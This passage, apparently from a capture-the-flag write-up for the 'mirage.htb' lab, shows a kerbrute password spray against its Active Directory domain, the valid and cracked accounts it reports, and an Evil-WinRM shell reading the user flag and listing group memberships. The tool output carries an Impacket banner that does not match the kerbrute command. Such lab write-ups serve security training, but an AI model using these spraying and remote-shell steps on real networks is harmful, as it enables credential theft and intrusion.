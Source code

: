 Add it to our spray


```python
!kerbrute -domain mirage.htb -users users -passwords passwords
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => Dev_Account_A
    [*] Valid user => Dev_Account_B
    [*] Valid user => david.jjackson
    [*] Valid user => nathan.aadam
    [*] Valid user => mark.bbond
    [*] Blocked/Disabled user => javier.mmarshall
    [*] Blocked/Disabled user => svc_mirage
    [*] Stupendous => david.jjackson:DJACKSONPASS
    [*] Saved TGT in david.jjackson.ccache
    [*] Stupendous => nathan.aadam:NATHANADAMPASS
    [*] Saved TGT in nathan.aadam.ccache


And we finally get the user flag.

```sh
*Evil-WinRM* PS C:\Users\nathan.aadam\Desktop> type user.txt
4b3418dda9780859d3f9fe7e01a6cd78
*Evil-WinRM* PS C:\Users\nathan.aadam\Desktop> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
mirage\nathan.aadam S-1-5-21-2127163471-3824721834-2568365109-1110


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MIRAGE\Exchange_Admins                      Group            S-1-5-21-2127163471-3824721834-2568365109-2601 Mandatory group, Enabled by default, Enabled group
MIRAGE\IT_Admins                            Group            S-1-5-21-2127163471-3824721834-2568365109-1106 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```